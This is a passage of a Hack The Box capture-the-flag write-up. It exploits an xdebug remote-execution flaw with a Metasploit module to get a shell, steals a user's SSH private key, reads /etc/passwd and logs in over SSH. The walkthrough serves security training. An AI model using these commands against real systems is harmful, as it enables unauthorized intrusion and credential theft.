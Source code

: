 ```
2021-11-06 19:44:04 failed to find GID for group nogroup
2021-11-06 19:44:04 Exiting due to fatal error
```

This fixed it:

```bash
perl -pe "s#group nogroup#group nobody#g" web.ovpn
```

The listed IPs are not yet linked to the VPN device:

```bash
ip address
# 8: tun9: <POINTOPOINT,MULTICAST,NOARP,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UNKNOWN group default qlen 500
#     link/none
#     inet 172.30.0.9/16 scope global tun9
#        valid_lft forever preferred_lft forever
#     inet6 fe80::ff:1b39:830:7858/64 scope link stable-privacy
#        valid_lft forever preferred_lft forever
sudo ip route add 172.20.0.0/24 dev tun9
```

Then an internal webserver is exposed:

![][phpinfo]

The module `xdebug` can be exploited thanks to the [MSF module from Rapid7][xdebug-rce]:

```bash
set rhosts 172.20.0.10
set path /vpn/login.php
set lhost tun9
run
shell
id
# uid=33(www-data) gid=33(www-data) groups=33(www-data)
cat /home/www-data/.ssh/id_rsa
```

```bash
chmod 600 id_rsa.www-data
ssh -i credentials/id_rsa.www-data www-data@10.10.10.246
```

```bash
cat /etc/passwd | grep -via nologin
# root:x:0:0:root:/root:/bin/bash
# sync:x:4:65534:sync:/bin:/bin/sync
# www-data:x:33:33:www-data:/home/www-data:/bin/bash
```

## Moving on to PKI

Going back to the `/vpn`, there's a new domain:


[author-profile]: https://app.hackthebox.com/users/9631
[cve-2019-11043]: https://github.com/theMiddleBlue/CVE-2019-11043
[otphp]: https://github.com/lelag/otphp
[fixgz]: https://github.com/yonjar/fixgz
[phpinfo]: images/screenshots/phpinfo.png
[pki-domain]: images/screenshots/pki.png
[xdebug-rce]: https://www.rapid7.com/db/modules/exploit/unix/http/xdebug_unauth_exec/